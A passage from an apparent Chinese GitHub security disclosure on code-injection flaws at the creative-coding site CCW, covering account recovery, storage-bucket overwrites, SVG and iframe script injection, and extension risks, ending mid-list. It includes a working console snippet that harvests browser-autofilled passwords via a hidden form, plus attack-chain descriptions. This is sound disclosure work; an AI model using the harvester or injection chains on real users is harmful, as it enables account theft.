










# CCW-Code-Injection

记录共创世界的代码注入漏洞、可能的盗号方式和防护方式建议。

更新时间：北京时间 2026年6月26日 19:37

该仓库创建于北京时间 2026年2月10日 ，此前被修复的漏洞可能没有记录。  

> [!WARNING]  
> **仅供学习研究用途，请勿用于网络攻击，违者后果自负！！！**  
>
> **For learning and research purposes only. Do not use for cyber attacks. Offenders will bear all the consequences!!!**

> [!TIP]  
> ↓ 如图所示，点击右上角的这个按钮查看目录  
>    

> [!TIP]  
> 建议使用 [CCW-Code-Injection-Risk-Warning](https://github.com/bddjr/CCW-Code-Injection-Risk-Warning) 防御部分漏洞。  

---

## 账号被黑了怎么办？

1. 立即关闭整个浏览器的所有窗口。
2. 使用浏览器访问账号设置 https://www.ccw.site/profile/setting ，找到“密码问题”，点击右侧的“修改”，然后尽快修改你的密码。
3. 访问 https://www.ccw.site/login ，然后使用新的密码登录你的账号。
4. 鼠标右键点击空白处，点击“检查”，然后在弹出来的开发者工具里找到“控制台”或“Console”并点击它。
5. 在控制台里粘贴以下代码，然后enter执行
    ```js
    /**
     * blueimp-md5
     * Copy from https:/www.npmjs.com/package/blueimp-md5
     * @copyright 2011 Sebastian Tschan, https:/blueimp.net
     * @license MIT
     */
    !function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-722521979),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);

    // 清空个人资料的“学校”字段
    await fetch("https:/\/community-web.ccw.site/health/check", {
      method: "POST",
      credentials: "include"
    }).then(r => {
      if (!r.ok) throw Error(`${r.status} ${r.statusText}`);
      return r.json()
    }).then(j => {
      if (j.status != 200) throw Error(j.msg);
      const hmacKey = j.body
        .map(({ traceId }) => traceId[parseInt(traceId[0], 16) + 1])
        .reverse()
        .join("")
        , body = `{"school":""}`
        , b = Date["now"]().toString()
        , a = md5("ccw" + body + b, hmacKey);
      return fetch("https:/\/community-web.ccw.site/students/update", {
        method: "POST",
        credentials: "include",
        headers: { a, b, "content-type": "application/json" },
        body,
      })
    })
    ```
6. 访问个人资料 https://www.ccw.site/profile/personal ，然后修改你的昵称和个性签名，然后点击“保存”。
7. 访问鸭鸭院长的主页 https://www.ccw.site/student/61039f14fffbe5461b880787 ，找到你的评论，然后点击右侧的三个点，点击“删除”，然后点击“确认”。
8. 在 https://learn.ccw.site/my-article 检查账号是否在被盗号期间发布了文章，如果有，请点击右侧红色的“下线”。
9. 清除浏览器缓存文件。
10. 使用 [QQ](https://im.qq.com/) 联系共创世界管理员（3026904139）申诉，说明你的账号被黑客入侵，并将账号id告诉他，并且说明你已修改密码。

---

## 阿里云OSS存储桶文件覆盖漏洞

状态：⚠️可能未修复

共创世界官方没有控制好OSS存储桶的权限，导致攻击者可以利用该漏洞，将已有文件覆盖成新的文件，造成严重的后果。

已知攻击者已经利用该漏洞覆盖以下内容

- 素材集市的扩展
- 用户头像
- 文章封面
- 创作者学院图标

其中 “素材集市的扩展” 对用户造成的影响最大，扩展被替换成恶意代码，让本该可以信任的扩展变得不可信，导致更多用户中招。

已知该漏洞于 2025年9月21日 被 [孟夫子驾到](https://www.ccw.site/student/63c2807d669fa967f17f5559) 发现并反馈给官方，然而官方不把这当回事。

直到 2026年4月19日 ，攻击者 “不想上学” 成功破解了阿里云OSS存储桶的前端签名机制，并于2026年5月开始利用该漏洞。  

随后，2026年5月31日凌晨，官方紧急启用了OSS覆写保护，修复了该漏洞。

然而，因为OSS覆写保护影响了西瓜创客的业务，所以官方再次关闭该功能，导致漏洞再次出现。

于是，攻击者再次利用该漏洞发起攻击。

参考文章：
- [ccw扩展覆写事件分析，此漏洞其实早就被发现了？](https://learn.ccw.site/article/77be3d26-dbf6-4d82-b323-5fc06033c600)
- [CCW扩展事件分析(二周目)](https://learn.ccw.site/article/6839840e-aa50-47d4-8028-ae932bddfee7)

存储桶网址: https://zhishi.oss-cn-beijing.aliyuncs.com

加载存储桶的文件时使用的CDN网址:
- https://m.ccw.site
- https://m.xiguacity.cn

---

## 个人资料的“学校”字段

状态：未知

攻击者成功在受害者的环境注入恶意代码后，会将个人资料的“学校”字段修改成很长的字符串（长达5M），导致用户个人设置的个人资料时，页面无响应（卡死），用户难以使用常规路径修改自己的昵称和密码。

不过，受害者可以按照 [“账号被黑了怎么办？”](#账号被黑了怎么办) 的提示操作，以解决个人资料页面卡死的问题。

---

## 钓鱼登录页面

攻击者成功注入恶意代码后，可能会创建一个登录页面，诱导用户输入账号密码，而恶意代码会悄悄地监视输入框，盗取密码。  

用户需提高反诈骗意识，不要在查看作品或编辑作品的页面输入CCW账号密码，也不要在域名不是 www.ccw.site 的钓鱼网站输入CCW账号密码。  

如果需要登录，请在新标签页访问CCW首页 https://www.ccw.site ，或者在新标签页访问CCW登录页 https://www.ccw.site/login 。

---

## 自动填充账号密码

这本该是浏览器的问题。  
如果用户没有更改浏览器的相关设置，只要 `<input>` 元素没有填写错误的 autocomplete 属性，浏览器就会自动填充已保存的账号密码，没有经过使用者的许可。  

攻击者成功注入恶意代码之后，可以盗取浏览器自动填充的账号密码，即使网页未显示输入框。  

> 但是，为什么 CCW 的登录界面不会自动填充密码？  
> 那是因为 CCW 的登录界面的 password 输入框的 autocomplete 属性填的是 "new-password" 。  

参考 https://developer.mozilla.org/zh-CN/docs/Web/HTML/Reference/Attributes/autocomplete

网站可以采取的防护措施：  
如果CCW网站登录支持2FA，像Github和npm那样的2FA，并且2FA也防暴力破解，应该会大大增加盗号难度。  
只要用户设置了2FA，攻击者即使盗到密码也不能直接在攻击者自己的设备上登录，那么攻击者即使盗了密码也没用，攻击行为只能发生在用户未关闭网页的情况下，用户只要关闭网页，攻击者就没办法继续攻击了。  
这虽然防不了钓鱼的登陆界面，但至少可以防止在完全不知情的情况下被盗取浏览器自动填充的密码。  
遗憾的是，截至本文更新时间，CCW还是没有2FA功能。  

> [!TIP]  
> 建议禁用浏览器的自动填充密码，或者改为 “在查看或填写网站密码之前提示设备登录选项。始终征求许可”  
> 
>   

盗号程序演示：

> [!WARNING]  
> **仅用于测试自己的环境的安全性，不得用于盗取他人账号，违者后果自负！！！**  
>
> **For testing the security of your own environment only. Do not use it to steal others' accounts. Offenders will bear all the consequences!!!**  

```js
// 在浏览器的控制台粘贴代码，然后按键盘上的 enter 。
// 返回类型 { id: string, password: string } 。
// 如果返回的 id 和 password 都是空字符串，说明浏览器没有自动填充密码。
await new Promise((resolve, reject) => {
    var form, timeoutId;
    function removeElement() {
        try { if (form) form.remove() } catch (e) { }
    }
    function clearMyTimeout() {
        try { if (timeoutId) clearTimeout(timeoutId) } catch (e) { }
    }
    try {
        form = document.createElement('form');
        form.style.display = 'none';
        form.innerHTML = (
            `<input type=text name=id autocomplete=username>` +
            `<input type=password name=password autocomplete=current-password>`
        );
        function res() {
            try {
                const out = Object.fromEntries(new FormData(form));
                removeElement();
                resolve(out);
            } catch (e) {
                removeElement();
                reject(e);
            }
        }
        function oninput() {
            if (form.lastChild.value && form.firstChild.value) {
                clearMyTimeout();
                res();
            }
        }
        form.firstChild.addEventListener('input', oninput)
        form.lastChild.addEventListener('input', oninput)
        document.body.appendChild(form);
        // 3 秒没填充就自动返回
        timeoutId = setTimeout(res, 3000);
    } catch (e) {
        removeElement();
        clearMyTimeout();
        reject(e);
    }
})
```

> [!NOTE]  
> 已知该漏洞被 “不想上学” 利用过。  
> 部分账号疑似被 “不想上学” 盗取，并被用于发布评论和恶意扩展，已知包括：
> 
> - [沙雕的初小白](https://www.ccw.site/student/6700b4333feba73009833eb5)  
>   共创世界 ID 265003222  
>   处罚：已被封禁，然后于2026年5月11日15时左右解除封禁，随后的 3 个小时内再次被封禁。  
>   封禁时间：2026年5月8日 14:55:59  
>   解封时间：2026年5月18日 17:10:52  
> 
> - [生气的Charles0](https://www.ccw.site/student/66b75da6aa7ba3081f3f839f)  
>   共创世界 ID 263014899  
>   处罚：已被封禁  
>   封禁时间：2026年5月5日 23:42:24  
>   解封时间：2029年1月28日 23:44:21
> 
> 以下证据截图自 [文章](https://learn.ccw.site/article/998d3e07-7210-4b5a-ab6d-64ac84e3caef) 的评论区和 “不想上学” 发的链接。  
> 
>   
>   
>
> 以下评论截图自 [鸭鸭院长](https://www.ccw.site/student/61039f14fffbe5461b880787) 的主页评论区。  
>
>   
>   

> [!NOTE]  
> 官方回复：  
>
>   

---

## SVG

### 基于 Scratch 编辑器编辑造型的代码注入攻击：  

状态：⚠️未修复  

参考 https://muffin.ink/blog/scratch-vulnerability-disclosure/  
漏洞演示 https://www.ccw.site/detail/69f73e772a7d36316189ef73  

### 基于 iframe + svg 的代码注入攻击：  

状态：✅已修复

⚡立即中招，几乎没有反应时间。  
如果在浏览器里直接用一个标签页打开 svg ，浏览器会执行 svg 里的 JS 脚本。同理，在没有保护措施的 iframe 里加载 svg 也会立即执行脚本。  
漏洞演示：https://m.ccw.site/user_projects_assets/a8039314e7b97ea48e176b34090b680e.svg  
已知登录 www.ccw.site 时的 Set-Cookie 响应头是这样的
```
Set-Cookie: token=XXXXXXXXXXXXXXXX60816ba55659e776ec2d3be9; Path=/; Domain=.ccw.site; Max-Age=2592000; Expires=Tue, 02 Jun 2026 12:57:16 GMT; HttpOnly
```
因此，在 m.ccw.site 加载的 svg 里执行的脚本可以携带有效的 token 请求 CCW 接口。  
设想的场景：  
黑客在 learn.ccw.site 使用 iframe 嵌入来自 m.ccw.site 的 svg ，然后这个 svg 里有恶意代码，并且会伪装，表面上看这好像就是个 iframe 在显示b站的视频，背后其实已经把浏览器自动填充的密码、手机号、实名认证的姓名、身份证前两位和后两位等信息打包并发送到黑客的服务器了。  

**这比加载 Gandi IDE 再执行恶意脚本还要快很多很多倍，受害者根本来不及反应。**  







该漏洞已被攻击者利用，然后 [HCN（官方程序员）](https://www.ccw.site/student/5d47fec31c94e579b89cd259) 中招，随后修复了该漏洞。

CCW 官方已添加以下响应头，阻止执行任何脚本：  
```
Content-Security-Policy: script-src 'none'
```

---

## 未上架到“Gandi扩展库”的扩展

未上架到“Gandi扩展库”的扩展就是第三方的脚本，它并没有运行在沙盒环境里，因此漏洞是十分明显的。

关于它的加载方式，有两种情况。

### detail页面

以前会在加载作品的时候直接执行第三方的脚本，然后才在用户点击 “立即运行” 的时候询问是否运行。  
这样的漏洞是非常明显的，脚本没有经过用户同意，就已经执行。  

现在在加载扩展之前就会警告，只有用户点击 “继续运行” 才会运行扩展的脚本，降低了安全风险。  

### 其它页面

其它页面例如：
> creator  
> gandi  
> embed

以前，这些页面在加载项目的时候会立即加载并执行扩展脚本，不会经过用户同意，因此漏洞仍然明显。

> 攻击者可以利用 creator 或 gandi 会立即加载作品的特性，在加载作品的时候执行第三方扩展脚本。  
> 用户只需要访问创作页的链接，就会将自己的账号暴露在风险之中。  
> 
> 对应的，在创作者学院的文章里，可以插入 iframe ，而 iframe 能立即访问 creator 或 gandi ，形成了漏洞链，用户仅需点开文章，就会暴露在风险之中。  
> 
> 当然了，创作页执行上述操作，并不需要使用第三方扩展，只需要使用 CCWData 的代码注入漏洞，配合 “当计时器 > -1” 的帽子，就可以在浏览器访问链接后立即执行任意代码。

现在，这些页面只有在自己是作品的作者，或者自己参与协作的时候不会有警告。

但即使这样，该漏洞仍存在被利用的风险。

---

## 创作者学院的iframe

状态：⚠️未修复  

您可能已经注意到，上述的部分攻击形式可以借助创作者学院嵌入iframe，形成漏洞链，受害者在已登录的状态下，点击文章就会中招。  

这其中有两种形式：

- 基于 `www.ccw.site/gandi` 或 `www.ccw.site/creator`  
